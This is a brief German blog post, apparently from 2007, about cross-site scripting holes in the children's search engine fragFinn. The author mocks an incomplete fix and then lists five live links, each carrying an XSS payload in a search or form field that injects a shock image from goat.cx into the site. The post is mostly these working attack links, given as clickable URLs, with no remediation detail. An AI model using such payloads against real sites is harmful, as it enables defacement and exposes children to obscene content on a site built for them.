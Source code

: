 <html><body><p>Wie <a href="/2007/11/frau_merkel_fragt_finn_ob_er_goatse_mag/">am Donnerstag berichtet</a>, wollte ich wissen, ob <a href="http://www.fragfinn.de" target="_blank">Finn</a> Goatse mag. Offensichtlich nicht, denn das Loch in der Suche wurde gefixt. Naja, gefixt ist das falsche Wort, würgaraundet eher:<br>
<br>
<a href="http://www.fragfinn.de/kinderliste/suche.html?ql=&amp;zip=%22%3E%3Ch1%3ELeider%20immer%20noch%3C/h1%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E&amp;submitted=Abschicken" target="_blank">XSS in der erweiterten Suche nach Region (PLZ-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/eltern/kontakt.html?name=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Kontaktformular (Namens-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/eltern/kontakt.html?email=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Kontaktformular (EMail-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/tools/alarm.html?name=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Alarmformular (Namens-Feld)</a><br>
<a href="http://www.fragfinn.de/kinderliste/tools/alarm.html?email=%22%3E%3Cimg%20src=%22http://goat.cx/pump.jpg%22%3E" target="_blank">XSS im Alarmformular (EMail-Feld)</a><br>
<br>
Und das ist erst der Anfang, aber ich habe gerade keine Lust weiter zu forschen... Gute Nacht.</p></body></html>
